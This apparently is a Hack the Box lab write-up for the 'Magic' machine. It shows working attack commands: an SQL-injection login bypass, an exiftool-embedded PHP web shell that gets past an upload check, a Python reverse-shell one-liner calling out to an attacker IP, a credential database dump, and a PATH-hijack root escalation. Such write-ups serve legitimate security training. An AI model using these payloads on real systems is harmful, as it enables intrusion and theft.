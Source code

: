 +++
author = "Nick"
categories = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
date = 2020-08-22T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/05/info-2.png"
slug = "hack-the-box-magic"
summary = "Today we are doing the Hack the Box machine Magic."
tags = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
title = "Hack the Box - Magic"

+++


Welcome back! Today we are doing the Hack the Box machine Magic. Magic is listed as a Medium Linux machine. Let's jump in!

Like every box we do on this blog, we start with our `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.185`

Here are our results:
```
Nmap scan report for 10.10.10.185
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.14 seconds
```

We don't have much of a choice. It looks like we are going to head over to the web service being hosted to see how to get a foothold. Before we do, we'll start a `gobuster` scan to see what it might find.

Command:
`gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php`

We know immediately from checking the source there is some driectory structures under images as well as a `login.php` page. Here are our `gobuster` results.

![](/images/2020/05/image-42.png)

Nothing really useful. So we'll take a peek at the login page. The first thing we try are some basic credentials like admin/admin, magic/magic ect, but none work. We have a few options, we can try to bruteforce our way in with `hydra` or `burpsuite` or we can see if the fields are vulnerable to `sql injections`. So we fire off `sqlmap` against the url. While that runs we test manually as well.

When we try to login as admin and a password of `'` it doesn't give us any error back as normal. So useing this we craft a standard SQL payload:

Payload
`'or''='`

This redirects us to the `upload.php` page.Turn outs that `sqlmap` also found the field injectable.

![](/images/2020/05/image-43.png)

![](/images/2020/05/magic_sql.gif)

Now that we are given an option to upload, we can try and upload something a bit more useful, like maybe a webshell of some type. When we try we are given an error about our file type.

![](/images/2020/05/image-44.png)

When we rename our shell to `shell.php.jpg`, we get another error.

![](/images/2020/05/image-45.png)

[This seems familiar](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf). It could be checking `mime` type here. There are a few ways to bypass this. This is a [nice quick reference page](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass). In this case we'll use the third method of using exiftool to add a comment. 

First we need a base image, I used the image of the minions on the index page from the box itself. Next we need to install `exiftool` since it's not installed by default.

Command:
`apt install exiftool -y`

Once installed we use the commands given before to create our code.

Command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' con.jpg`
`mv con.jpg con.php.jpg`

Now we upload the file.

![](/images/2020/05/magic_upload.gif)

Once the file is uploaded we navigate to `/images/uploads/` and see if `con.php.jpg` is there.

![](/images/2020/05/image-46.png)

It is indeed there. Now we can leverage the shell we imbeded into the image!

![](/images/2020/05/image-47.png)

This basic shell helps with enumeration but is lacking in functionality. I want to read that db.php5 file but in order to do so we'll need to repeat the process with a better shell, in this case we'll use [Winter Wolf's](https://github.com/WhiteWinterWolf/wwwolf-php-webshell#wwwolfs-php-web-shell) shell. After we repeat the process we are able to read the file and get a password!

![](/images/2020/05/image-48.png)

Unfortunately this password is not the same as the users `SSH` password. It is however an `SQL database` password. We'll need to create a reverse shell to dump this via `mysqldump`. I was able to get a shell [via python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

Command:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Once we issue the command via our shell, our listener starts up!

![](/images/2020/05/magic_reverseshell.gif)

We then [stabilize our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) so we can dump the database. 

Command:
`mysqldump -u theseus -piamkingtheseus --all-databases > dumpme.sql`

As we parse through the dump, we see some more credentials:

![](/images/2020/05/image-49.png)

We are still unable to use that password for `SSH` due to how `SSH` has been configured. We can however try to `su` to another user and hope one of the two passwords work.

![](/images/2020/05/image-50.png)

We got in! We snag the user.txt flag. Now that we're inside the box, we can start enumerating interally. We'll copy of `linpeas` and take a look at there is on the system. As we sift through the information given, we see some interesting items. In particular our ability to use sysinfo:

![](/images/2020/05/image-51.png)

This looks like a pretty potent path to root, I'm just not sure how. Some googling around didn't really give me anything great. So I copy over `pspy32` and start monitoring processes. When I run `sysinfo` with `pspy` running I see the commands it's actually calling to the system. You could also see this if you `strings` the binary.

![](/images/2020/05/image-53.png)

Now that we know it's calling `fdisk` and in what order we'll create our own `fdisk` that has a reverse shell inside. So we create a new directory in `/tmp` called `tmp3`. Now inside this directory we create a file called `fdisk`. Now change the file permissions to `755`. Inside this file, we'll put the same `python` reverse shell we had from before just on a different port. You can either make the file on your local attackin machine or create it on the target machine. Here are the commands so far:

Commands:
`mkdir /tmp/tmp3`
`vi fdisk`
`chmod +x fdisk`

Now that we have those in place, we need to append a new location to our [PATH variables](https://linuxize.com/post/how-to-set-and-list-environment-variables-in-linux/). We know from before it is this:

![](/images/2020/05/image-54.png)

We also know that the PATH is parsed in order. So we want to add `/tmp/tmp3` to the front of that variables list, like this:

Command:
`export PATH=/tmp/tmp3:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
<l/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This way, `sysinfo` will look in our `/tmp/tmp3` location for fdisk BEFORE all other locations.

Now we'll spin up our `netcat` listener on our chosen port.

With all the parts in place, we call `sysinfo`.

![](/images/2020/05/magic_root.gif)

There we have it, a root shell! We snag the root.txt flag. Box completed!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



